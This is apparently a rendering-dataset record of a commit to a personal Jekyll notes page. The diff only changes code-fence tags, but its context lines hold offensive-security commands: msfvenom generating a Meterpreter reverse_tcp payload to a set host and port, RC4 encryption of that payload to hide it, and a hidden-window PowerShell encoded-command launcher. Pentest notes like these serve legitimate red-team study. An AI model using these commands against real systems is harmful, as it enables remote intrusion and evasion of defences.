

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 5559 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -303,7 +303,7 @@ powershell -Sta -Nop -Window Hidden -EncodedCommand <encodedCommand>
 
 ##### Hex Encode
 
-```
+```py
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
 //cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
 xxd -i encmeter.bin
@@ -311,7 +311,7 @@ xxd -i encmeter.bin
 
 ##### Default MSF bin
 
-```
+```py
 msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Proxy Loading worked!" -f raw > shellcode.bin
 ```
 
````
